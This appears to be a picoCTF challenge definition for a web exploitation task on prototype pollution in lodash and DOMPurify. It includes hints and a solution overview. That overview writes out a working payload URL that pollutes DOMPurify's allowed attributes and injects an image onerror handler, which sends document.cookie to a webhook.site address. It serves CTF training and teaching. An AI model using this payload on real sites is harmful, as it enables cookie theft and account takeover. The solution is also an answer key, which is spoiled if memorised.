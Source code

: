 # supply-me-vuln

- Namespace: picoctf/18739f24
- ID: supply-me-dom
- Type: custom
- Category: Web Exploitation
- Points: 1
- Templatable: yes
- MaxUsers: 1

## Description

The site uses multiple buggy libraries! Figure them out and carry out the exploit!


## Details

Browse {{link_as('/', 'here')}}, and find the flag!


## Hints

- How do you determine what library is running behind the scene and get its version? (hint: extensions would be useful!)
- This link might be useful: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution 
- How do data get passed from library to library?


## Solution Overview

- Install library detector extension on your browser and detect the library being used
- figure out the vulnerable libraries with library detector
- The libraries are dompurify and lodash
- Seems like the sink is at dompurify 
- Try to find gadget to pollute dompurify 
- Lodash has prototype pollution vulnerability 
- Figure out the payload for polluting dompurify 
- Figure out the payload to get document.cookie
- Send to victim 
- https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/dompurify.md
- cookie exploit url for remote server: http://localhost:8000?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src&__proto__[hasOwnProperty]={}&name=<img src onerror=fetch('https://webhook.site/62766d8c-83e6-40b6-a12d-6f65c884f7ce?cookie='%2Bdocument.cookie)>
- http://localhost:8000/?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src&__proto__[hasOwnProperty]={}&name=%3Cimg%20src%20onerror=fetch(%27https://webhook.site/62766d8c-83e6-40b6-a12d-6f65c884f7ce?cookie=%27%2Bdocument.cookie)%3E

## Learning Objective

- Get to know about the supply chain attacks and prototype pollution

## Attributes

- author: Ian Lin
- organization: picoCTF
- event: picoCTF Problem Developer Training
